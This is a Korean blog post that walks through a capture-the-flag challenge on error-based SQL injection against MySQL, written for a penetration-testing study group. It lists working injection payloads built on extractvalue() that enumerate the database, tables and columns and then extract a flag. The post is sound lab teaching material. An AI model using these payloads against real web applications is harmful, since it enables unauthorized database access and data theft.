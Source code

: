 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: Error Based SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB]
---
```


# 회고
* Error-Based SQL Injection은 SQL의 Error 문구를 이용하여 데이터를 추출하는 공격 방식이다.
* 데이터베이스 종류마다 공격 방식이 다르다.
* MySQL에서는 공격 방식이 크게 두 가지가 있는데, 그 중 하나가 XPath를 이용한 공격이다.
    extractvalue()함수를 이용한다.
**[이론 설명 포스트](/Error_Based_SQL_Injection)**

# Error Based SQL Injection
## START
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-1.png?raw=true)
1. **normaltic'**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-2.png?raw=true)
1. **normaltic' and extractvalue('1', (concat(0x3a, 'test'))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-3.png?raw=true)

## DATABASE
1. **normaltic' and extractvalue('1', (concat(0x3a, database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 DB의 이름이 errSqli라는 것을 알았다

## TABLE
1. **normaltic' and extractvalue('1', (concat(0x3a, select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-1.png?raw=true)
-> 👀 문법 오류가 발생했다.
-> 🙄 문법 오류가 왜 발생한 건지 잘 모르겠다.
1. **normaltic' and extractvalue('1', (concat(0x3a, select database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-2.png?raw=true)
-> 👀 문법 오류가 발생했다.
-> 👀 [위쪽](#database)에서는 SELECT를 안 쓰고 DATABASE()만 썼더니 나왔다.
-> 🤔 SELECT를 쓸 때는 괄호를 한 번 더 감싸줘야 하는걸까?
1. **normaltic' and extractvalue('1', (concat(0x3a, (select database())))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 괄호로 SELECT문을 한 번 더 감싸줬더니 결과가 나왔다.
-> 🤔 TABLE 이름 가져오는 것도 마찬가지고 괄호로 한 번 감싸면 될 것 같다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-5.png?raw=true)
-> 💡 첫 번째 TABLE 이름이 flagTable이라고 한다.
-> 🤔 혹시 다른 TABLE이 더 있을까?
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(table_name) from information_schema.tables where table_schema = 'errSqli')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-6.png?raw=true)
-> 💡 TABLE 개수가 3개라고 한다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 1, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-7.png?raw=true)
-> 💡 두 번째 TABLE 이름은 member였다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 2, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-8.png?raw=true)
-> 💡 두 번째 TABLE 이름은 plusFlag_Table였다.
-> 🤔 flagTable 먼저 확인하고 안 되면 plusFlag_Table 확인하면 될 것 같다.

## COLUMN
💡 이제부터는 개수 먼저 확인해야겠다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(column_name) from information_schema.columns where table_name = 'flagTable')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-9.png?raw=true)
-> 💡 flagTable의 컬럼 개수는 2개라고 한다.
-> 💡 하나씩 컬럼 이름을 확인해보겠다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-10.png?raw=true)
-> 💡 첫 번째는 idx였다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-11.png?raw=true)
-> 💡 두 번째는 flag였다.

## DATA
💡 마찬가지로 개수 먼저 확인해야겠다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(flag) from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-12.png?raw=true)
-> 💡 데이터는 총 1개이다.
1. **normaltic' and extractvalue('1', (concat(0x3a, (select flag from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-13.png?raw=true)
-> 😎 찾았다!